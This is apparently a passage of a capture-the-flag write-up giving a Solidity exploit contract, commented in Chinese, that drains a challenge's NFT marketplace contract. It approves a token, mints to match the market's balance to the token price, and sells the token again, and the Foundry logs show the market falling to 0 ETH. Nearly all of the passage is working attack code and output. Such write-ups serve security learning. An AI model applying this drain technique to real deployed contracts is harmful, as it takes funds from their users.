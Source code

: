 ```solidity
        // 8.将token_0再次卖出
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:address(this)
            tokenId_0.approval:market               tokenId_1.name:market
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // market: 100ETH's fee + 50ETH
        token.approve(token_0, address(market));

        // 计算：token0的价格
        uint tokenPrice = uint256(100 ether) * 10000 / (10000 + 1000);
        // 缺失的钱 = token0的价格 - market剩余的金额
        // 为什么要算这个呢？因为我们可以再次取出token0，得到token0的价格，
        // 但是market中并没有这么多余额，会报错，因此我们需要再次mint来存入一点钱，
        // 使得market的余额刚好等于token0的价格，这样我们再次取出token0的时候，
        // market就刚好没钱了
        uint missingBalance = tokenPrice - address(market).balance;

        //补偿缺少的ETH
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:address(this)
            tokenId_0.approval:market               tokenId_1.name:market
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // market: 100ETH's fee + 50ETH + missingBalance = token0's price
        market.mintCollectible{value:missingBalance}();
        console.log("4.market mint another token:",address(market).balance);
        // sellAgain
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:address(this)
            tokenId_0.approval:market               tokenId_1.name:market
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // market: 0ETH
        market.sellCollectible(token_0);
        console.log("5.market after attack:",address(market).balance);

        assertEq(level.isSolved(), true);
        
    }

    receive() external payable{} // 用于接收ETH

}
```

```bash
Logs:
  1.market init balance: 50000000000000000000
  2.market mint token0: 150000000000000000000
  3.market sell token0: 150000000000000000000
  4.market mint another token: 90909090909090909090
  5.market after attack: 0
```
